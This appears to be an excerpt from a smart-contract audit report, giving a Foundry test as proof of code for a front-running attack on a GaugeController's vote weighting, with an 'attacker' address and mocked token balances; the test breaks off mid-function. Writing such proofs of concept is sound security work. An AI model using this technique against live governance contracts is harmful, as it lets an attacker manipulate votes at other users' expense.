 ### Proof of code: Add this code to a testfile and run it

```solidity 
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;
​
import "../../../../../contracts/interfaces/core/governance/gauges/IGaugeController.sol";
import "../../../../../contracts/interfaces/core/governance/gauges/IGauge.sol";
import "../../../../../contracts/core/governance/gauges/GaugeController.sol";
import "../../../../../contracts/libraries/math/TimeWeightedAverage.sol";
import "../../../../../contracts/libraries/governance/BoostCalculator.sol";
import "forge-std/Test.sol";
​
contract GaugeControllerTest is Test {
    using TimeWeightedAverage for TimeWeightedAverage.Period;
    using BoostCalculator for BoostCalculator.BoostState;
​
    GaugeController public controller;
    address public veToken;
    address public gauge;
    address public attacker;
    address public admin;
​
    function setUp() public {
        veToken = makeAddr("veToken");
        controller = new GaugeController(veToken);
        
        admin = address(this);
        attacker = makeAddr("attacker");
        gauge = makeAddr("gauge");
​
        // Mock veToken balance calls
        vm.mockCall(
            veToken,
            abi.encodeWithSelector(IERC20.balanceOf.selector, attacker),
            abi.encode(100 * 1e18)
        );
​
        vm.mockCall(
            veToken,
            abi.encodeWithSelector(IERC20.totalSupply.selector),
            abi.encode(1000 * 1e18)
        );
        
        // Admin adds new gauge with initial weight
        controller.addGauge(gauge, IGaugeController.GaugeType.RWA, 1000);
    }
​
    function testFrontRunningAttack() public {
        // Initial setup - attacker has 100 voting power
        uint256 ATTACKER_VOTING_POWER = 100;
        vm.mockCall(
            veToken,
            abi.encodeWithSelector(IERC20.balanceOf.selector, attacker),
            abi.encode(ATTACKER_VOTING_POWER)
        );
​
        // Start with low type weight
        controller.setTypeWeight(IGaugeController.GaugeType.RWA, 1000); // 10%
​
        // Initial state - attacker votes with their full power
        vm.startPrank(attacker);
        controller.vote(gauge, ATTACKER_VOTING_POWER);
```